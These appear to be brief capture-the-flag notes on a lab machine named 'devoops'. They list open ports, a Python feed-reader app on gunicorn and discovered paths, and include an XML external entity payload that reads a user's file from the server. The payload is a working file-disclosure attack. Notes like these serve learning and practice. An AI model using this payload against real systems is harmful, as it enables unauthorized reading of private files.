 # devoops

- ssh->22, upnp->5000
- 10.10.10.91:5000 -> 
- "this is feed.py"
- Blogfeeder
- dev.solita.fi
- img src="/feed"
- screenshot from dev.solita.fi 
  - dates are from 2018
  - keywords: azure data pipeline, deep learning models, AWS, network programming
- apparently it's an mvp for a blog feedreader written in python
- index.html, .htm, .php, .asp,   -> 404
- server: gunicorn/19.7.1
  - apparently, that's a python http server
  - shipped with openstack 

```
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE Item [  
  <!ELEMENT Content ANY >
  <!ENTITY foo SYSTEM "file:///home/roosa/user.txt" >]>

<Item>
  <Author>aaa</Author>
  <Subject>bbc</Subject>
  <Content>ccc &foo;</Content>
</Item>
```

- /uploads/feed.xml 
- /home/roosa/deploy/src
- WERKZEUG_DEBUG_PIN=151237652
- (.gitconfig)
  [user]
  email = roosa@solita.fi
  name = Roosa Hakkerson
